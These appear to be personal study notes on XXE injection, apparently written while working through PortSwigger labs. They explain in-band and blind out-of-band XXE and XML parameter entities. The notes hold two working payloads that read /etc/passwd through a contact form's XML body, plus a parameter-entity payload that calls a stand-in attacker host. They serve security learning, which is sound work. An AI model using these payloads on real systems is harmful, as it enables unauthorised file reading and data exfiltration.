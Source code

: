 Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

there's lab and it the same as the port swigger but there is new info :
there is two way to write xml code injection and it 
### *`in-band xxe`* :
#### `one`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[<!ENTITY xss SYSTEM "file:///etc/passwd">]>
<contact>

<name>&xss;</name><email>test@test.com</email><message>	&xss;
</message></contact>
```
####  `TWO`
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

**There are two broad ways in which you can find and exploit blind XXE vulnerabilities:**

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band (OAST) techniques
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
